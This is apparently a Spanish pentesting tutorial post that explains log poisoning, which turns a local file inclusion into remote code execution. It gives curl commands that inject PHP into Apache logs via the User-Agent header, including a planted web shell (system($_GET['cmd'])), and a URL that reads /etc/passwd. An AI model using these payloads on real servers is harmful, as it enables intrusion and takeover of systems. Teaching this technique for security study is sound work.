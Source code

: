 ```yaml
---
title: Vulnerabilidades 2
date: 2023-09-20
categories: [Hacking Web, Abrir con cuidado]
tags: [Log Poisoning, Padding Oracle, Type Juggling, LDAP, Inyecciones LaTex, API, Subida de Archivos, Prototype Pollution, AXFR, Mass Assignment, Open Redirect, WebDaV, Squid Proxies, Shellshock]
image:
  path: ../../assets/img/HackingWeb/AbrirConCuidado/vulns2.jpg
  width: 528
  height: 340
  alt: Banner Vulns2
---
```


Continuaremos el contenido de Vulnerabilidades 1, dado que hay unas cuantas vulnerabilidades más. Todas ellas hermosas. Agradecimientos a Marcelo Vázquez conocido también como s4vitar. Parte de los conocimientos los he recogido de sus videos y academia.
- - - 

## Log Poisoning

Gracias a esta vulnerabilidad podemos convertir un LFI a un RCE.

Ruta guardado de logs Apache: **/var/log/apache2/access.log**  
Ruta guardado de logs ssh: **/var/log/auth.log** ó **/var/log/btmp**

### Logs de Apache
Cualquier petición que haga al servidor se registra en ese log, aunque el recurso no exista.

Para que se de esta vulnerabilidad el usuario que lleva la web (normalmente www-data) tiene que tener permisos de lectura en los logs y por supuesto tener un LFI, imagina que tengo un LFI en una web cualquiera:
```
http://webInsegura/index.php?filename=/var/log/apache2/access.log
```
Si apuntando a esa ruta podemos listarlo es que el usuario que corre la web puede leer los logs, verás que si recargas van saliendo más logs; las peticiones y sus User-Agent. Y del **User-Agent** nos aprovecharemos:
```bash
> curl -s -X GET "http://webInsegura/loquesea" -H "User-Agent: <?php system('whoami'); ?>
```
Es en código php porque el LFI se llama desde un fichero php, es gracias a un fichero php y (posiblemente) la función include que te lo carga.  
Si volvemos a leer ese access.log mediante el LFI veremos el resultado del comando whoami en el caso de que la función system esté habilitada. Para saber que funciones hay habilitadas en el server:
```bash
> curl -s X GET "http://webInsegura/loquesea" -H "User-Agent: <?php phpinfo(); ?>"
```
Se encuentran en **disable_functions**.

Por último y para faciliar el RCE:
```bash
> curl -s -X GET "http://webInsegura/loquesea" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```
Escapamos el $ por en bash puede generar conflicto.  
Y ya desde el navegador:
```
http://webInsegura/index.php?filename=/var/log/apache2/access.log&cmd=cat /etc/passwd
```
### Logs de SSH
